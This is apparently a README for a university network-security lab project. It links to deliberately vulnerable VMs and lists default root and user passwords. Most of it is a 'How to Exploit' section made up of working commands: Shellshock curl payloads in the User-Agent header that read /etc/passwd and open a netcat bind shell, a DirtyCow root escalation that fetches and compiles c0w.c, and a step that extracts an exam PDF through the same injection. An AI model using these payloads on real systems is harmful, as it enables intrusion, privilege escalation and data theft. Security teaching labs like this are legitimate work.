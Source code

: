 # Network Security 2016 Project


### VM

Server VM be downloaded here: https://drive.google.com/open?id=0B5aLHLFCodGDTFBLRkQyWlJMNDg

Client VM can be downloaded here: https://drive.google.com/open?id=0B55ad1nR3eibV3IxT0lSYld0VTA

Full .ova file: https://drive.google.com/open?id=0B55ad1nR3eibYlF6WWc1NEhqRm8

**Important:** Check that bridged networking is enabled (Settings > Network > Adapter 1 > Attached to: Bridged Adapter)

Then you can access the webserver running on the VM from your host system.

To get the IP of the VM, start it, login and run the command 'ip addr show eth0'.

**Users:** 

* root:root
* netsec:netsec

**To Update:**

* login as user 'netsec'
* cd netsec-project
* git pull
* sudo ./setup.sh

**Website:** &#60;IP-of-VM&#62;/cgi-bin/index.cgi


**If you want to restore /usr/bin/passwd:**

* sudo cp /opt/passwd.bkp /usr/bin/passwd


### How to Exploit

Shellshock:
```
curl -H "User-Agent: () { :; }; echo \"Content-type: text/plain\"; echo \"\"; echo \"\"; /bin/cat /etc/passwd" 192.168.1.110/cgi-bin/index.cgi
```

Reverse Shell:
```
curl -H "User-Agent: () { :; }; /bin/netcat -e /bin/bash -l -p 12345" 192.168.1.110/cgi-bin/index.cgi
```

Connect to Reverse Shell:
```
netcat 192.168.1.110 12345
```

Information Gathering:
```
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

DirtyCow root privilege escalation:
```
cd /tmp
wget <url>/c0w.c --no-check-certificate
gcc -pthread c0w.c -o c0w
./c0w

(Wait...)

/usr/bin/passwd
id
uid=0(root) gid=0(root) groups=0(root)
```

Get Network Security exam:
```
find / -name "exam.pdf"

cp /home/netsec/exam.pdf /tmp/exam.pdf

exit

curl -H "User-Agent: () { :; }; echo \"Content-Type: application/pdf\"; echo \"\"; echo \"\"; /bin/cat /tmp/exam.pdf" 192.168.1.110/cgi-bin/index.cgi > exam.pdf
```
